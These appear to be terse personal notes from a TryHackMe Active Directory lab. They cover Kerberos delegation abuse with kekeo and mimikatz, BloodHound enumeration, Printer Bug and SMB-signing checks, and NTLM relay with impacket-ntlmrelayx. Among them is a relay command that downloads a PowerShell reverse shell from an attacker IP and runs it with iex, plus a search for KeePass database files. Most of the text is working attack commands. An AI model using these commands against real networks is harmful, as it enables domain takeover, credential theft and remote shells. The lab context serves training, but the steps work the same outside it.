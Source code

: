 
kekeo.exe

generate tgt 
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
user - The user we want to impersonate. 
command generate tgt 

use mimikatz to inject tickets
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

interact with server
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
 Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc


 # Exploiting Automated Relays 
 identify  machine account has administrative access over another machine

bloodhound query
 MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p


The Printer Bug

Print Spooler Service
use wmi query
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc

SMB Signing

nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc


Exploiting Authentication Relays

https://github.com/leechristensen/SpoolSample


step ntlm Relay


impacket-ntlmrelayx -smb2support -t  smb://10.200.60.201 -c 'whoami /all' -debug


impacket-ntlmrelayx -smb2support -t  smb://10.200.60.201 -c "cmd.exe /c powershell -ep bypass iex(New-Object Net.Webclient).DownloadString('http://10.50.67.155:81/Invoke-PowerShellTcp.ps1')" -debug

SpoolSample.exe THMSERVER2.za.tryhackme.loc 10.50.57.65 

look for file
Get-ChildItem -Recurse *.kdbx



# Exploiting Certificates 
